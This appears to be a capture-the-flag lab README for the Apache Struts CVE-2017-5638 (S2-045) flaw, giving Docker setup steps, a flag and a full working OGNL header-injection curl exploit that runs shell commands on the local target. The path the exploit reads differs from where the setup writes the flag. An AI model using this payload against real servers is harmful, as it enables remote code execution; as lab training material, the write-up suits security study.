 # Challenge 9: Struts Apache

## How to Start
```bash
docker compose pull
docker compose up -d
```

---

## Description
This challenge demonstrates **CVE-2017-5638**, which affects Apache Struts 2.3.x.  
The vulnerability is due to incorrect exception handling and error message generation during file upload attempts, allowing attackers to execute arbitrary code by crafting a `Content-Type`, `Content-Disposition`, or `Content-Length` HTTP header while including a `#cmd=` string.

---

## Solution

To exploit the vulnerability, run:
```bash
curl -v 127.0.0.1:8011   --header "Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).\
(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).\
(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).\
(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).\
(#context.setMemberAccess(#dm)))).\
(#cmd='cat /root/flag.txt').\
(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).\
(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).\
(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).\
(#process=#p.start()).\
(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).\
(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())"   -F "file=@/etc/passwd"
```

**Flag:**
```
FLAG{STRUCK_BY_STRUTS2}
```

---

## How to Recreate

### 1. Clone Vulhub Repository
```bash
git clone https://github.com/vulhub/vulhub
```

### 2. Navigate to Struts2 S2-045 Directory
```bash
cd vulhub/struts2/s2-045
```

### 3. Start the Container
```bash
docker-compose up -d
```

### 4. Add the Flag
```bash
docker ps
docker exec -it <container_id> /bin/bash
echo "FLAG{STRUCK_BY_STRUTS2}" > /usr/local/tomcat/webapps/ROOT/flag.txt
```

---

## Final Notes
This challenge highlights the dangers of outdated Apache Struts installations and improper input validation, which can lead to full remote code execution.
